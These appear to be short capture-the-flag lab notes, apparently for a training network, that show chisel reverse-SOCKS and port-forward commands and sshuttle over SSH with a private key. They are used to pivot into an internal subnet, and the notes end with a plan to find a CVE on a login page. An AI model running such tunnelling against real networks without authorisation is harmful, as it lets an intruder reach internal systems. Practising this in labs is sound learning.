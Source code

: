 

<h2>So basically we are doing Reverse Socks / Forward Socks/ Remote Port Forward / Local Port Forward </h2>

```

./chisel server -p 4242 --reverse
./chisel client 172.16.0.200:4242 R:socks &

./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &

./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel client 172.16.0.10:4444 8000:172.16.0.5:80
```






## Sshuttle

```
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i id_rsa" 10.200.87.0/24
```






## Second machine 

Now will use SShuttle to connect to other machine.

```
sshuttle -r root@thomaswreath.thm --ssh-cmd "ssh -i id_rsa" 10.200.87.150/24 -x 10.200.87.200
```
![[Pasted image 20240730134947.png]]

Yes we are in the network.
```
http://10.200.87.150/registration/login/
```

Now let's enumerate and get in through a cve or vulnerability.

